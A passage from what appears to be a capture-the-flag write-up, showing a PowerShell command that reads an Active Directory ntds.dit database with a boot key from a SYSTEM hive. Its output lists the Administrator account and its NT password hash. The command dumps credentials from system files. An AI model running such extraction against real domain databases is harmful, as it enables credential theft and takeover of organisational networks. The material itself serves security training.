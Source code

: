Use the following code. To extract the password for all users in DB.

```bash
PS C:\Documents4\CyberSec\JuniorCryptCTF> Get-ADDBAccount -All -DatabasePath 'C:\Documents4\CyberSec\JuniorCryptCTF\ntds.dit' -BootKey (Get-BootKey -SystemHivePath 'C:\Documents4\CyberSec\JuniorCryptCTF\SYSTEM') | more

DistinguishedName: CN=Administrator,CN=Users,DC=contoso,DC=com
Sid: S-1-5-21-1236425271-2880748467-2592687428-500
Guid: b3d02974-6b1c-484c-9103-fd2f60d592c4
SamAccountName: Administrator
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: True
UserAccountControl: NormalAccount, PasswordNeverExpires
SupportedEncryptionTypes:
AdminCount: True
Deleted: False
LastLogonDate: 18-11-2019 16:20:39
DisplayName:
GivenName:
Surname:
Description: Built-in account for administering the computer/domain
ServicePrincipalName:
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-1236425271-2880748467-2592687428-512
Secrets
  NTHash: 92937945b518814341de3f726500d4ff
```

BTW, the here’s the admin pass.

![13](/assets/posts/JuniorCryptCTF/13.png)

Now, let’s find the Tilen2000 user hash.

![14](/assets/posts/JuniorCryptCTF/14.png)
